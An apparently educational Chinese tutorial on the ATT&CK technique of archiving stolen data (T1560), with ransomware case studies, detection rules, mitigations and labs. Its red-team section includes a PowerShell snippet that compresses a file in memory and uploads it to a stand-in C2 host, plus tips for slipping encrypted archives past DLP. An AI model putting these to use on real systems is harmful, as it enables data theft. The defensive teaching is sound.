

# 压缩收集的数据 (T1560)

## 一句话通俗理解

攻击者把偷到的文件打包成一个压缩包（就像你用WinRAR压缩文件一样），方便一次性传输出去。

## 难度等级

⭐ 初级（新手可学）

## 技术描述

压缩收集的数据（T1560）是MITRE ATT&CK框架中收集战术的一种技术。

**通俗解释：**
偷东西之后怎么运出去？一个一个文件传输太慢了。攻击者会把收集到的多个文件打包成一个ZIP或RAR压缩包——就像你用WinRAR压文件一样——然后一次性上传到远程服务器。压缩不仅方便传输，还能减小文件体积（节省流量），甚至用密码加密压缩使安全设备难以检测。

**技术原理：**

1. **收集目标文件**：在文件系统上定位和收集目标文档、数据库文件、配置文件
2. **压缩打包**：使用系统内置工具或第三方库将文件压缩成ZIP、RAR、TAR、7z等格式
3. **可能加密压缩**：使用AES-256等算法加密压缩包，绕过安全设备的深度内容检测
4. **切割分段**：将大型压缩包分割成小段，避免超过C2通道的传输大小限制

**用途与影响：**
数据压缩本身不是攻击，而是攻击流程中的一个"辅助步骤"。它帮助攻击者在准备外传数据时提高效率、减小可检测性。加密压缩可以绕过DLP的内容检测，因为安全设备无法解密查看压缩包内容。

## 子技术列表

**该技术共有 3 个子技术：**

| 子技术ID | 中文名称 | 通俗解释 |
|----------|----------|----------|
| T1560.001 | 使用工具归档 | 使用WinRAR、7-Zip、WinZip等压缩工具进行打包 |
| T1560.002 | 通过库归档 | 使用编程语言的内置压缩库如Python的zipfile、.NET的System.IO.Compression |
| T1560.003 | 通过内置命令归档 | 使用操作系统自带的压缩命令如tar、Compress-Archive、compact |

<details>
<summary><strong>展开查看各子技术详细说明</strong></summary>

### T1560.001 - 使用工具归档

**通俗理解：** 攻击者用WinRAR或7-Zip把偷到的文件压成RAR或7z包。

**详细说明：**
攻击者使用已安装在系统上的压缩工具（如WinRAR、7-Zip、WinZip）对收集的数据进行打包。这种方式比较常用，但有两个明显的缺点：一是这些工具的执行会被EDR记录，二是可能被DLP检测到异常的大批量文件压缩。

### T1560.002 - 通过库归档

**通俗理解：** 攻击者用代码中的压缩库（如Python的zipfile）打包文件，不需要安装额外工具。

**详细说明：**
攻击者使用编程语言的标准压缩库直接进行文件打包，无需外部工具。Python的`zipfile`和`tarfile`模块、.NET的`System.IO.Compression`命名空间、Java的`java.util.zip`都是常见选择。这种方式的优势是在内存中操作，不写入磁盘压缩包实体，降低被检测的风险。

### T1560.003 - 通过内置命令归档

**通俗理解：** 攻击者用电脑自带的命令（如Linux的tar、Windows的Compress-Archive）打包文件。

**详细说明：**
攻击者使用操作系统内置的压缩命令进行打包，无需安装额外工具。Linux/macOS的`tar`命令、Windows的`Compress-Archive`（PowerShell）和`compact`命令、macOS的`ditto`和`zip`命令都可以使用。

</details>

## 攻击流程

### 典型攻击流程

```
收集目标文件 --> 选择压缩方式 --> 执行压缩命令 --> 可选的加密 --> 压缩包准备外传
```



**步骤详解：**

1. **收集目标文件**
   - 通俗描述：将系统上找到的敏感文件放到同一个目录中
   - 技术细节：使用`Copy-Item`或`cp`命令将分散的文件复制到临时目录
   - 常用工具：PowerShell、`cp`命令

2. **选择压缩方式**
   - 通俗描述：选择最合适的压缩工具和压缩格式
   - 技术细节：基于可用工具（系统和第三方）、操作系统和隐藏需求选择
   - 常用工具：7-Zip（高压缩比）、WinRAR（加密支持）、tar（Linux内置）

3. **执行压缩命令**
   - 通俗描述：运行压缩命令创建压缩包
   - 技术细节：使用命令行参数设置压缩级别、文件排除规则
   - 常用工具：`7z a -mx=5 archive.zip files`、`Compress-Archive`

4. **可选的加密压缩**
   - 通俗描述：给压缩包设置密码，防止安全设备检测内容
   - 技术细节：使用AES-256加密压缩包，或对压缩包再次加密
   - 常用工具：7-Zip AES加密、WinRAR加密

5. **压缩包准备外传**
   - 通俗描述：压缩包准备就绪，等待通过C2通道传输
   - 技术细节：压缩包被分块上传，或直接作为HTTP请求体发送
   - 常用工具：C2通信协议、HTTP POST、FTP

## 真实案例

### 案例1：INC Ransomware - 使用WinRAR打包窃取的数据（2025年2月）

- **时间**: 2025年2月
- **目标**: 全球医疗和教育机构
- **攻击组织**: INC Ransomware
- **手法**: INC勒索软件团伙在数据窃取阶段，使用命令行WinRAR批量压缩从受害者网络收集的文件。攻击者使用以下命令将窃取的数据打包成加密压缩包：`rar a -r -hp[password] -m5 stolen_data.rar C:\Staging\*`，其中`-hp[password]`参数对压缩包进行了密码保护加密（T1560.001）。随后使用`rar a -v500m -m0 -idp`对加密压缩包进行分段。美国HHS在2025年2月发布关于INC Ransomware的警告，要求医疗行业加强防范。
- **影响**: 加密压缩的文件通过匿名文件共享服务外传，常规DLP无法检测内容
- **参考链接**: [INC Ransomware Warning - HHS 2025](https://www.hhs.gov/about/agencies/asa/hec-ransomware/inc-ransomware-guidance.html)

### 案例2：SolarMarker - 使用PowerShell Compress-Archive打包（2024-2025）

- **时间**: 2024年-2025年
- **目标**: 美国律师事务所、金融机构
- **攻击组织**: SolarMarker (Deimos) 后门
- **手法**: SolarMarker使用PowerShell的`Compress-Archive`命令（T1560.003）对收集的文件进行压缩打包。攻击者在PowerShell脚本中使用以下命令压缩从文档目录收集的文件：`Compress-Archive -Path "$env:USERPROFILE\Documents\*" -DestinationPath "$env:TEMP\staging.zip" -CompressionLevel Optimal`。SolarMarker使用PowerShell的目的是为了"以系统自带工具"方式操作，避免使用被监控的第三方压缩工具。
- **影响**: 多家企业的法律和财务文档被压缩打包后外传
- **参考链接**: [SolarMarker - Red Canary](https://redcanary.com/blog/solarmarker/)

### 案例3：Akira勒索软件 - WinRAR压缩数据经FileZilla外传（2024）

- **时间**: 2024年
- **目标**: 全球中小型企业、教育机构、医疗组织
- **攻击组织**: Akira勒索软件团伙
- **手法**: Akira勒索软件团伙在2024年的多起攻击中，通过入侵VPN网关获得初始访问权限后，利用WinRAR对受害者网络中的文件共享数据进行大规模压缩打包（T1560.001）。攻击者在入侵期间（最长42天）逐步遍历网络共享，使用WinRAR命令行将设计文档、财务数据和客户信息压缩成密码保护的RAR文件。压缩命令为：`WinRAR a -r -v500m -m5 -hp[password] data.rar \\fileserver\share\*`，使用`-hp`参数对压缩包头进行加密，使DLP系统无法检测文件类型。压缩完成后，攻击者通过FileZilla SFTP客户端将加密压缩包上传到攻击者控制的云存储中。Akira还使用7-Zip进行辅助压缩（`7z a -mx5 -p[password]`），以规避仅监控WinRAR的检测规则。
- **影响**: 多家企业的敏感数据以加密压缩包形式被窃取并在数据泄露站点公开
- **参考链接**: [Akira Ransomware - Halcyon TTP Report](https://www.halcyon.ai/ioc-ttp-index/winrar-in-ransomware-operations)

## 红队视角

> ⚠️ **免责声明**：以下内容仅用于合法的安全测试、渗透测试和教育目的。未经授权对他人系统进行测试是违法行为。

### 实战技巧

1. **使用PowerShell在内存中直接打包**
   避免在磁盘上生成压缩包文件，直接在内存中将文件压缩后通过HTTP上传：
   ```powershell
   $stream = [System.IO.MemoryStream]::new()
   $zip = [System.IO.Compression.ZipArchive]::new($stream, 'Create')
   # 添加文件到压缩包
   $entry = $zip.CreateEntry("data.txt")
   $writer = [System.IO.StreamWriter]::new($entry.Open())
   $writer.Write((Get-Content "target.txt" -Raw))
   $writer.Close()
   $zip.Dispose()
   # 从内存流读取并上传
   $bytes = $stream.ToArray()
   Invoke-WebRequest -Uri "https://c2.example.com/upload" -Method POST -Body $bytes
   ```

2. **使用7-Zip的最高压缩比**
   7-Zip的LZMA2算法（`-mx=9`）比标准的ZIP压缩率更高，可以将数据体积减少30%-50%。

3. **加密压缩包的规避策略**
   使用空密码的AES-256加密压缩包可以绕过大多数基于内容检测的DLP（因为压缩包是二进制格式），而又不会因需要输入密码而增加数据传输的复杂度。

### 常用工具

| 工具名称 | 用途 | 平台 | 链接 |
|----------|------|------|------|
| 7-Zip | 高压缩比命令行压缩工具 | 跨平台 | https://www.7-zip.org/ |
| WinRAR | RAR格式命令行压缩 | Windows | https://www.win-rar.com/ |
| PowerShell Compress-Archive | Windows内置压缩cmdlet | Windows | 系统内置 |
| tar | Linux/macOS内置归档工具 | Linux/macOS | 系统内置 |
| zipfile (Python) | Python标准压缩库 | 跨平台 | Python标准库 |

### 注意事项

- 压缩操作会产生明显的磁盘I/O和CPU使用率，性能监控可以发现
- 大型压缩包的创建会被文件系统监控告警
- DLP方案可能会监控`WinRAR.exe`或`7z.exe`等压缩工具的启动
- 在内存中压缩避免了磁盘写入，但占用更多的内存

## 蓝队视角

### 检测要点

1. **压缩工具的异常启动**
   - 日志来源：Sysmon Event ID 1（进程创建）
   - 关注字段：`WinRAR.exe`、`7z.exe`、`rar.exe`在非用户后台场景下的启动
   - 异常特征：压缩工具在非工作时间由非用户启动，或在服务器上启动

2. **PowerShell压缩命令**
   - 日志来源：PowerShell Event ID 4104（Script Block Logging）
   - 关注字段：`Compress-Archive`、`System.IO.Compression.ZipArchive`
   - 异常特征：用户目录或临时目录中的文件被批量压缩

3. **大量小文件合并为单个大压缩包**
   - 日志来源：Sysmon Event ID 11（FileCreate）
   - 关注字段：新创建的ZIP/RAR文件名称和大小
   - 异常特征：临时目录中出现带有随机名称的大型压缩包

### 监控建议

- 监控压缩工具（WinRAR、7-Zip、WinZip）的进程创建，特别是从非常规路径启动的场景
- 检测`Compress-Archive`或`System.IO.Compression`的PowerShell使用
- 监控临时目录（`%TEMP%`、`%APPDATA%`）中的压缩包创建

## 检测建议

### 网络层检测

**检测方法：** 监控大规模出站数据传输的流量特征，关注异常的压缩包文件传输、分块上传行为和加密流量绕过DLP检测的迹象。

**具体规则/命令示例：**

```
# 检测出站的大文件传输连接（基于Zeek conn.log）
# 关注短时间内出站流量激增的连接
cat conn.log | awk '$7 ~ /S_SENT/ && $10 > 10000000 {print $1, $2, $3, $4, $10, $11}' 
# $10 = orig_bytes, 超过10MB的出站连接为可疑
```

**示例（Suricata/IDS规则）：**
```
# 检测大规模压缩包通过HTTPS上传
alert tcp $HOME_NET any -> $EXTERNAL_NET 443 (
    msg:"大体积压缩数据上传 - 可疑的批量文件外传";
    flow:to_server;
    content:"multipart/form-data|0d 0a|";
    dsize:>5000000;
    threshold:type both, track by_src, count 3, seconds 300;
    sid:10000001; rev:1;
)
```

**检测方法：** 监控压缩工具产生的网络连接行为，识别非预期的远程访问工具下载（WinRAR、7-Zip等通过HTTP/FTP获取）或与云存储服务（MEGA、pCloud、Wasabi）的异常同步。

```
# 检测非预期的压缩工具下载（代理日志）
# 关注从非官方源下载WinRAR/7-Zip安装包的行为
10.0.0.105 - - [10/Jun/2026:14:23:01] "GET /download/7z2301.exe" 200
# 在非IT管理员的终端上出现压缩工具下载为可疑行为
```

### 主机层检测

**Windows事件ID：**
- Sysmon Event ID 1：进程创建（检测压缩工具启动）
- PowerShell Event ID 4104：Script Block Logging
- Sysmon Event ID 11：FileCreate（检测新创建的压缩包）

**具体命令示例：**
```bash
# 检测最近启动的压缩进程
Get-WinEvent -FilterHashtable @{LogName='Microsoft-Windows-Sysmon/Operational'; ID=1} |
    Where-Object { $_.Message -match 'WinRAR|7z|rar|zip' }
```

### 应用层检测

**Sigma规则示例：**
```yaml
title: 数据压缩打包检测
status: experimental
description: 检测通过PowerShell或压缩工具创建压缩包的行为
logsource:
    category: process_creation
    product: windows
detection:
    selection:
        CommandLine|contains:
            - 'Compress-Archive'
            - 'rar a'
            - '7z a'
            - 'WinRAR a'
    condition: selection
level: medium
tags:
    - attack.t1560
    - attack.collection
```

## 缓解措施

### 优先级1：关键措施

**措施名称：** 应用程序控制

**具体实施步骤：**
1. 使用AppLocker限制压缩工具的执行（只允许批准的路径）
2. 对PowerShell的`Compress-Archive`进行约束语言模式（ConstrainedLanguage Mode）限制
3. 限制非管理员用户使用压缩工具

### 优先级2：重要措施

**措施名称：** DLP（数据防泄漏）

**具体实施步骤：**
1. 配置DLP规则监控压缩包创建并扫描内容
2. 对包含敏感数据的加密压缩包进行阻断
3. 监控异常的大型压缩包创建行为

### 优先级3：建议措施

**措施名称：** 端点检测

**具体实施步骤：**
1. 部署EDR方案监控批量文件压缩行为
2. 配置告警检测异常进程调用压缩API的场景
3. 对临时目录中的压缩包进行文件行为分析

### MITRE ATT&CK 缓解措施映射

| 缓解措施ID | 缓解措施名称 | 适用性 | 说明 |
|------------|-------------|--------|------|
| M0945 | 应用程序控制 | 适用 | 限制压缩工具的未授权使用 |
| M0938 | 数据防泄漏 | 适用 | 监控和阻断数据压缩外传 |
| M0937 | 端点检测 | 部分适用 | 检测异常压缩行为 |

## 动手实验

> ⚠️ **重要提示**：所有实验必须在隔离的实验室环境中进行，禁止对未授权的真实系统进行测试。

### 实验环境准备

**所需工具：**
- Windows虚拟机
- PowerShell ISE
- 7-Zip（实验2必需）

### 实验1：使用PowerShell压缩文件（初级）

**实验目标：** 使用PowerShell内置命令压缩文件

**实验步骤：**
1. 在Windows虚拟机上创建几个测试文件
2. 使用`Compress-Archive`压缩这些文件：
   ```powershell
   # 创建测试文件
   "test content 1" | Out-File -FilePath "$env:USERPROFILE\Desktop\file1.txt"
   "test content 2" | Out-File -FilePath "$env:USERPROFILE\Desktop\file2.txt"
   
   # 压缩文件
   Compress-Archive -Path "$env:USERPROFILE\Desktop\file1.txt", "$env:USERPROFILE\Desktop\file2.txt" `
       -DestinationPath "$env:USERPROFILE\Desktop\test_archive.zip" `
       -CompressionLevel Optimal
   
   # 解压验证
   Expand-Archive -Path "$env:USERPROFILE\Desktop\test_archive.zip" `
       -DestinationPath "$env:USERPROFILE\Desktop\extracted"
   ```

**预期结果：** 成功创建和解压压缩包，文件内容完整

**学习要点：** 理解攻击者使用系统自带工具完成数据打包的过程

### 实验2：使用7-Zip命令行进行加密压缩（中级）

**实验目标：** 使用7-Zip命令行创建加密压缩包，模拟攻击者的数据打包过程

**实验步骤：**
1. 下载安装7-Zip（或使用便携版`7z.exe`）
2. 创建模拟敏感文件的测试数据：
   ```powershell
   # 创建包含敏感信息的测试文件
   @"
   客户名称: 示例公司
   合同金额: $1,000,000
   银行账号: 6222****1234
   合同编号: CT-2026-001
   "@ | Out-File -FilePath "$env:USERPROFILE\Desktop\sensitive\客户合同.txt" -Encoding UTF8
   
   @"
   系统管理员: admin@contoso.com
   AD服务器: dc01.contoso.local
   数据库连接: sql-cluster.contoso.local:1433
   "@ | Out-File -FilePath "$env:USERPROFILE\Desktop\sensitive\系统配置.txt" -Encoding UTF8
   ```
3. 使用7-Zip创建加密压缩包：
   ```powershell
   # 使用AES-256加密压缩，最高压缩比
   & "C:\Program Files\7-Zip\7z.exe" a -mx=9 -p"TestPassword123" -mhe=on `
       "$env:USERPROFILE\Desktop\sensitive_data.7z" `
       "$env:USERPROFILE\Desktop\sensitive\*"
   # 参数说明：
   # a        - 添加到压缩包
   # -mx=9   - 极限压缩（最高压缩比）
   # -p       - 设置密码
   # -mhe=on - 加密文件列表（包括文件名）
   ```
4. 验证加密压缩包的内容不可直接查看：
   ```powershell
   # 尝试直接读取压缩包（应看到加密内容）
   & "C:\Program Files\7-Zip\7z.exe" l "$env:USERPROFILE\Desktop\sensitive_data.7z"
   ```

**预期结果：** 成功创建AES-256加密的7z压缩包，不输入密码无法查看或解压内容

**学习要点：** 理解攻击者如何通过加密压缩绕过DLP内容检测，以及`-mhe=on`参数对文件名的额外保护

## 术语解释

| 术语 | 英文原名 | 通俗解释 |
|------|----------|----------|
| 压缩比 | Compression Ratio | 压缩后文件大小和原文件大小的比值，越小表示压缩效果越好 |
| LZMA | Lempel-Ziv-Markov chain-Algorithm | 7-Zip使用的高效压缩算法，压缩比高但速度较慢 |
| 分段压缩 | Volume Splitting | 把一个大型压缩包切成多个小段，方便分次传输 |
| DLP | Data Loss Prevention | 数据防泄漏系统，监控和阻止敏感数据外传 |
| AES加密 | AES Encryption | 高级加密标准，一种强加密算法，可用于保护压缩包内容 |

## 参考资料

### 官方文档

- [MITRE ATT&CK - T1560](https://attack.mitre.org/techniques/T1560/)
- [MITRE ATT&CK - T1560.001](https://attack.mitre.org/techniques/T1560/001/)
- [MITRE ATT&CK - T1560.002](https://attack.mitre.org/techniques/T1560/002/)
- [MITRE ATT&CK - T1560.003](https://attack.mitre.org/techniques/T1560/003/)

### 安全报告

- [INC Ransomware Guidance - HHS 2025](https://www.hhs.gov/about/agencies/asa/hec-ransomware/inc-ransomware-guidance.html)
- [SolarMarker Backdoor - Red Canary](https://redcanary.com/blog/solarmarker/)
- [Akira Ransomware - Halcyon WinRAR TTP Report](https://www.halcyon.ai/ioc-ttp-index/winrar-in-ransomware-operations)
- [7-Zip in Ransomware Operations - Halcyon](https://www.halcyon.ai/ioc-ttp-index/7-zip-in-ransomware-operations)

### 工具与资源

- [PowerShell Compress-Archive](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.archive/compress-archive)
- [7-Zip Command Line](https://7-zip.org/)
- [.NET System.IO.Compression](https://docs.microsoft.com/en-us/dotnet/api/system.io.compression)
